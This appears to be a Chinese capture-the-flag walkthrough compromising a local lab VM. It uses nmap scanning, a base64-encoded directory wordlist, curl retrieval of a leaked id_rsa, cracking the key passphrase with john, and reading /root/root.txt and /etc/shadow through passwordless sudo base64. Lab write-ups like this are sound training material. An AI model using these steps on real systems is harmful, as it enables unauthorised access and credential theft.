 主机探测

```
nmap -sn 192.168.56.0/24
```

![image-20250604164305225](./assets/image-20250604164305225.png)

确定靶机ip：192.168.56.108



端口扫描

```
set ip 192.168.56.108
sudo nmap -sT -p- --min-rate 1000 $ip -oN ./portscan
```

![image-20250604164356505](./assets/image-20250604164356505.png)



提取端口信息并进行详细结果扫描

```
set port $(cat ./portscan | grep open | awk -F'/' '{print $1}' | paste -sd,)
sudo nmap -sCV -O -p $port $ip -oN ./detailscan
```

![image-20250604164725326](./assets/image-20250604164725326.png)

开放了22和80端口



访问80端口

![image-20250604164840650](./assets/image-20250604164840650.png)

base64

解码

![image-20250604164917786](./assets/image-20250604164917786.png)

出现用户lucas，同时提示要BASE64编码



查看页面源码

![image-20250604165016090](./assets/image-20250604165016090.png)

可能是密码字典

![image-20250604165059709](./assets/image-20250604165059709.png)

尝试目录扫描

```
dirsearch -u http://192.168.56.108
```

![image-20250604165159759](./assets/image-20250604165159759.png)

无结果



结合先前得到的提示，可能需要对字典进行base64编码

写一个简单的脚本

```
for i in $(cat /usr/share/seclists/Discovery/Web-Content/common.txt)
do
	echo $i | base64 >> ./common.dic
done
```

```
bash dic.sh
cat common.dic | head -n5
```



![](./assets/image-20250604165425066.png)



重新尝试目录扫描

```
dirsearch -u http://192.168.56.108 -w common.dic
```

![image-20250604165617992](./assets/image-20250604165617992.png)



依次解码

![image-20250604165813077](./assets/image-20250604165813077.png)

robots.txt和id_rsa



![image-20250604165726827](./assets/image-20250604165726827.png)



base64解码

```
curl -s http://192.168.56.108/aWRfcnNhCg== | base64 -d > id_rsa
curl -s http://192.168.56.108/cm9ib3RzLnR4dAo= | base64 -d > robots.txt
```

![image-20250604170658237](./assets/image-20250604170658237.png)



尝试ssh登录

```
chmod 400 id_rsa
ssh lucas@192.168.56.108 -i id_rsa
```

![image-20250604170814867](./assets/image-20250604170814867.png)

需要密码，结合之前得到的字典



爆破失败

```
ssh2john id_rsa > hash
john -w=passwd.dic hash
```

![image-20250604171002776](./assets/image-20250604171002776.png)

结合先前提示，对passwd.dic进行base64编码处理



```
for i in $(cat passwd.dic)
do
	echo $i | base64 >> passbase.dic
done
```

```
bash passwd.sh
john -w=passwdbase.dic hash
```

![image-20250604171145273](./assets/image-20250604171145273.png)

得到密码



成功登录

![image-20250604171247898](./assets/image-20250604171247898.png)



得到user.txt

![image-20250604171316168](./assets/image-20250604171316168.png)



```
sudo -l
```

![image-20250604171331406](./assets/image-20250604171331406.png)

无密码执行base64

那么可以尝试利用base64实现任意文件读取



尝试直接读取/root/root.txt

```
sudo base64 /root/root.txt | base64 -d
```

![image-20250604171540443](./assets/image-20250604171540443.png)

或是读取/etc/shadow然后尝试爆破root密码

![image-20250604171600886](./assets/image-20250604171600886.png)